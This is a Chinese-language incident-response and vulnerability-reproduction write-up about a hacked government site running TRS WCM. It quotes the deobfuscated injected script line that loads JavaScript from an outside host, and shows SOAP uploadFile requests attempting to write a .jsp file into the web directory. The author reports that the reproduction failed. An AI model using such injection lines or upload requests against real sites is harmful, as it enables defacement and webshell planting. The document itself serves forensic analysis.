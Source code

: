 [TOC]

# TRS WCM 系统任意文件写入漏洞~~尝试复现~~
### 0x00
接到某政府部网页被挂马的信息，对被挂网页进行查看，在源码中发现
![](./img/1.png)
明显的js混淆，反混淆后得到(里面的x??就是ASCII,转换过来就好)
```javascript
window["document"]["write"]("<script type='text/javascript' src='http://www.138609.net/jsh.js'></script>");
```
跟进www.138609.net/jsh.js 得到js跳转(这里就不贴了)
最终跳转到<font color='red'>`https://www.yabc88.com/`</font>这个菠菜网站</br>
~~我们搞一下这个菠菜网站~~
### 0x01
挂马情况已经摸清了，现在尝试溯源，先找运维人员要来了服务器的流量</br>经过审计没有发现攻击流量(后来得知拿到的是前台流量，猜测黑客从后台进行修改网页)
我们去找网站的后端</br>
一般后端只需要找交互的地方，比如登录，可以找到后端控制的地方
![](./img/2.png)
成功找到后台,指纹识别为Tomcat Apache</br>
![](./img/3.png)<br>
通过Google<font color="red">`wcm`</font>找到了<font color="red">`/wcm/console/include/running_background.html`</font>路径
得到了版本信息
![](./img/4.png)<br>
找到一些有关利用漏洞，比如TRS WCM 系统任意文件写入漏洞
### 0x02 exploit
在<font color="red">`wcm/services/trswcm:SOAPService?wsdl`</font>和<font color="red">`wcm/services/trs:templateservicefacade?wsdl`</font>中裸露出来两个接口<br/>
通过访问<font color="red">`wcm/services`</font>得知，需要使用SOAPUI这个客户端才能进行交互
![](./img/5.png)
安装好SOAPUI之后<font color="red">`File`</font>-\><font color="red">`New SOAP Project`</font>，上面的输入框随意输入，下面的输入框我们要输入裸露的接口
![](./img/6.png)<br>
将接口成功连接上之后发现<font color="red">`uploadFile`</font>和<font color="red">`sendFileBase64`</font>这两个接口或许可以利用</br>
这里要注意的是，原本利用的接口是<font color="red">`writeFile`</font>和<font color="red">`writeSpecFile`</font>，但是之前维护的时候已经把这两个删掉了
![](./img/7.png)<br>
尝试上传文件，发出请求
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">jsp</in1>
         <in2 xsi:type="xsd:boolean">0</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
得到如下回应，发现成功上传，并得到了物理路径，并不在web路径
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <soapenv:Body>
      <ns1:uploadFileResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://impl.service.trs.com">
         <uploadFileReturn xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"><![CDATA[<REPORTS><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[上传文件]]]]>><![CDATA[</TITLE><REPORT><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[U020190710557616464509.jsp:D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.jsp]]]]>><![CDATA[</TITLE><TYPE>3</TYPE></REPORT></REPORTS>]]></uploadFileReturn>
      </ns1:uploadFileResponse>
   </soapenv:Body>
</soapenv:Envelope>
```
尝试写入web目录中
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">D:\\Tomcat\\webapps\\wcm\\demo\\index.jsp</in1>
         <in2 xsi:type="xsd:boolean">1</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
这次是报错信息<font color="red">`不是常规后缀信息，不能获取相应的文件名`</font>，尝试修改，发现只有<font color="red">`[.???|???]`</font>可以使用，一旦使用<font color="red">`/`</font>和<font color="red">`\`</font>进行跳跃就不可以，原因在于Server会将<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.`</font>与我们填写的后缀进行拼接，一旦切换目录就会出现<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.\xxx`</font>这种路径，从而报错，不能达到任意目录写的操作</br>
复现失败
